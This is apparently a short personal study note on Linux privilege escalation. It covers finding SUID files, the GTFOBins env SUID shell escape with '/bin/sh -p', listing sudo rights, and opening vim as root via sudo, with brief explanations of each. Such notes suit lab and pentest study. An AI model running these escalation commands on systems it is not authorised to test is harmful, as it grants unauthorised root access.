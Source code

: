 ## Find SUID files

``` bash
find / -perm -4000 2>/dev/null
```
- **`find /`** → Starts searching from the root (`/`) directory.
- **`-perm -4000`** → Looks for files with the **SUID (Set User ID) permission** set (`4000` in octal).
- **`2>/dev/null`** → Redirects **error messages** (typically "Permission denied" errors) to `/dev/null` to avoid clutter in the output.

![[Pasted image 20250328225102.png]]

Search **`env`** on GTFOBins with SUID permission: https://gtfobins.github.io/gtfobins/env/#suid

``` bash
/usr/bin/env /bin/sh -p
```
- **`/usr/bin/env`** → Runs a command in a modified environment (typically used to locate and execute binaries in the correct environment).
- **`/bin/sh`** → Starts a new shell session using `/bin/sh`.
- **`-p`** → Instructs the shell to **not drop privileges** when executing.


## Sudo commands without password

**Lists the commands that the current user can run with `sudo` privileges** without needing a password.
``` bash
sudo -l
```

![[Pasted image 20250329044236.png]]


## Escalation with Vim

This command will open the **Vim editor** as the `root` user if the user is able to execute vim as root with sudo.
``` bash
sudo -u root /usr/bin/vim
```

![[Pasted image 20250329044631.png]]
